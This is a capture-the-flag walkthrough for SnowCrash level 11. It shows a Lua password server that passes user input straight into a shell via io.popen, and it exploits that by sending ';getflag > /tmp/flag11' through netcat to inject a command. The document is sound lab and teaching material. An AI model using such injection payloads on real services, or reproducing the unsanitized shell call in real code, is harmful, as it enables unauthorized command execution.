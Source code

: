 We start by exploring the files and find a Lua script named `level11.lua`.

```
level11@SnowCrash:~$ ls
level11.lua
```

Examining the contents of `level11.lua` reveals a server script that listens on `127.0.0.1:5151` and asks for a password.

```
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end
```

---

### Explanation of the Code

1. **Server Setup**:

   - The script creates a server on `127.0.0.1:5151` and waits for a client to connect.
   - Once connected, the client receives a "Password:" prompt and can submit input as a password.

2. **The `hash` Function and Vulnerability**:

   - The `hash` function is designed to hash the user input with SHA-1.
   - It calls `io.popen("echo "..pass.." | sha1sum", "r")`, which runs `echo <input> | sha1sum` in the shell.
   - Because `pass` is concatenated directly into the shell command, we can inject arbitrary commands instead of a password.

3. **Executing Commands with Command Injection**:
   - By entering a password like `;getflag`, we terminate the `echo` command and add our command (`getflag`) afterward.
   - Since we don't see direct output from the server, we need to **redirect** the output to a file.

---

### Exploit Steps

1. **Setting Up a Netcat Connection**:

   - We connect to the server on `127.0.0.1:5151` with `nc`:

   ```
   level11@SnowCrash:~$ nc 127.0.0.1 5151
   Password: test
   Erf nope..
   ```

2. **Injecting the Exploit Command**:

   - Instead of a password, we send `;getflag > /tmp/flag11` to inject the `getflag` command and save the output in `/tmp/flag11`:

   ```
   level11@SnowCrash:~$ nc 127.0.0.1 5151
   Password: ;getflag > /tmp/flag11
   Erf nope..
   ```

3. **Retrieving the Flag**:

   - We check `/tmp/flag11` for the output of `getflag`:

   ```
   level11@SnowCrash:~$ cat /tmp/flag11
   Check flag.Here is your token :
   ```

---

This completes the exploit for Level11.
